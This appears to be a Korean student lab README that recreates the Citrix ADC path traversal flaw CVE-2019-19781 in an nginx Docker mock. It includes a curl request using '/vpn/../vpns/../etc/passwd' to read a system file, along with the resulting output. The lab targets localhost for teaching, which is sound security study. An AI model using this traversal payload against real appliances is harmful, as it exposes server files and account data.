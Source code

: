 # CVE-2019-19781(Citrix ADC Path Traversal Vulnerability)

- **작성자** : 화이트햇 3기 6반 김현진
- **github** : https://github.com/hyunjin0334/kr-vulhub/tree/main/CVE-2019-19781
- **Pull Requests** : 


## 개요
- **CVE 번호** : CVE-2019-19781

- **공개 날짜** : 2019년 12월 17일
  
- **취약점 요약** : Citrix ADC(Application Delivery Controller)는 WEB/WAN 가속, 웹-방화벽, L7 DDoS 방어 등 다양한 기능이 포함된 올인원 제품입니다. Citrix Gateway는 원격 엑세스를 단순하게 만들어주며, 앱과 리소스에 대한 액세스를 보호합니다.  
이 두 장비의 일부 버전에서 입력값에 대한 적절한 검증이 부족하여 공격자가 임의 코드를 실행시킬 수 있는 취약점이 발견되었습니다. Directory Traversal을 허용하는 문제점이 발견된 것입니다. /vpns/ 폴더에 대한 검증이 부족하여 민감한 파일을 읽거나 원격 코드를 실행(RCE)시킬 수 있습니다.

- **영향을 받는 버전** : (2020년 7월 이전에 지원된 버전)
  - Citrix ADC 13.0 이하
  - Citrix ADC 12.1 이하
  - Citrix ADC 12.0 이하
  - Citrix ADC 11.1 이하
  - Citrix ADC 10.5 이하


## 환경 구성 
- **Base Image** : nginx:1.17-alpine
  
    - **선정 이유** : Citrix ADC는 라이선스 없이 사용할 수 없으며 Base image가 존재하지 않기 때문에 직접 사용할 수 없었습니다. 따라서 오픈 웹서버이며 경로 매핑을 자유롭게 할 수 있는 것을 선정하여 실습 환경을 구성하여야 했습니다. nginx는 경로 매핑을 자유롭게 할 수 있기 때문에 Direatory Traversal 환경을 구축할 수 있었습니다. 또한 alpine 기반 이미지를 통해 빌드 속도와, 가벼운 Docker환경을 구축하고자 하였습니다.
 
- **구성 파일** :
  - Dockerfile
  - docker-compose.yml
  - nginx.conf
  - html/index.html
  - html/etc/passwd
 
- **Directory**
```text
cve201919781/
├── Dockerfile
├── docker-compose.yml
├── nginx.conf
└── html/
    ├── index.html
    └── etc/
        └── passwd
```

## 익스플로잇 및 결과 
- **1. Docker 빌드 및 실행** :
```
docker-compose up --build
```
![Docker 빌드 및 실행](1.png)  

- **2. 브라우저 접속 확인** :
```
http://localhost:8080/
```
![브라우저 접속 확인](2.png)  
정상적으로 접속되면 'CVE-2019-19781 Test Page'가 뜨게 됩니다.   

- **3. curl을 이용하여 Directory Traversal 공격 시도** :
```
curl http://localhost:8080/vpn/../vpns/../etc/passwd
```
해당 명령어는 curl을 통해 'http://localhost:8080'에 '/vpn/../vpns/../etc/passwd'요청을 하는 것입니다. 경로조작을 통해 민감정보인 서버 내부의 /etc/passwd와 같은 사용자 계정 정보가 저장된 중요한 파일을 읽어내려는 공격입니다.

- **4. 공격 결과 출력** :
``` 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```
![curl시도 및 결과](3.png)   
/etc/passwd 안의 정보가 그대로 출력되어 공격에 성공하게 됩니다. 


## 정리


## 참고 자료 
- [CVE-2019-19781 Detail](https://nvd.nist.gov/vuln/detail/cve-2019-19781)
- [Citrix ADC and Gateway 취약점 (CVE-2019-19781)](https://ggonmerr.tistory.com/141)
- [[해외동향] Citrix 보안취약점(CVE-2019-19781) 점검도구 공개](https://www.cyberone.kr/news-trends-detail?id=56192&page=1)
- [보안 권고: 임의 코드 실행으로 이어지는 Citrix Application Delivery Controller 및 Citrix Gateway의 취약성(CVE-2019-19781)](https://www.silverfort.com/ko/blog/recommended-mitigation-steps-for-vulnerability-in-citrix-adc-and-citrix-gateway-cve-2019019781/)
- [Citrix Application Delivery Controller, Citrix Gateway, and Citrix SD-WAN WANOP appliance Security Update](https://support.citrix.com/s/article/CTX276688-citrix-application-delivery-controller-citrix-gateway-and-citrix-sdwan-wanop-appliance-security-update?language=en_US)
- [Nginx 개념 및 nginx.conf 설정](https://narup.tistory.com/209)
- [Citrix ADC and Gateway RCE Vulnerability (CVE-2019-19781)](https://peemangit.tistory.com/399)





